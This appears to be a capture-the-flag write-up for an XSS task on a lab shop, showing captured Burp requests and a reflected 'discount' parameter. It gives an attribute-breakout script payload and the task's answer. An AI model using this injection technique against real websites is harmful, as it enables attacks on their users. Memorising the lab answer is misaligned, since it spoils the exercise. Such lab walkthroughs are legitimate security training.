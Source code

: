 <h1 align=center>Cross site scripting attack/XSS</h1>

# TASK 8
## What other hidden parameter can be found on the shop which can introduce an XSS vulnerability

#### to be honest i spend 1+ hour for this question. don't try manually. use burp suite instead of it.

first click on the products from "sticker pack" and "hoodie", then type discount coupon code and hit "add to basket" button, remember use burp to capture this request

## Request

```POST /product?id=2 HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/product?id=2
Cookie: session=9604154dd85ab285184436dd6ebc37cd
Upgrade-Insecure-Requests: 1

add_to_basket=1&discount=12```

### notice on the http request start line and body

```id=2
add_to_basket=1
discount=12```


### then i'm trying to execute xss using those parameter. but not interesting. so i changed the request method.

``` GET /product?id=2&add_to_basket=1&discount=12 HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/product?id=2
Cookie: session=9604154dd85ab285184436dd6ebc37cd
Upgrade-Insecure-Requests: 1 ```

and it also refleted back on the page 

                      ``` <form method="post">
                            <input type="hidden" name="add_to_basket" value="1">
                            <div style="margin-bottom:10px"><input placeholder="Discount Code" class="form-control" name="discount" value="12"></div>
                            <input type="submit" class="btn btn-success" value="Add To basket">
                            <input type="button" class="btn btn-info checkstock" data-product-id="1" value="Check Stock">
                        </form>```

notice on the "name="discount" value="12">"

if i inject like this => "<script>alert("hacked by nazu")";// inside discount parameter guess what will happened?

first it will close the value parameter using double quote(") then the code will execute.

look 

value="12"
value=""<script>alert("hacked by nazu")";" | boom! 

```answer = discount```
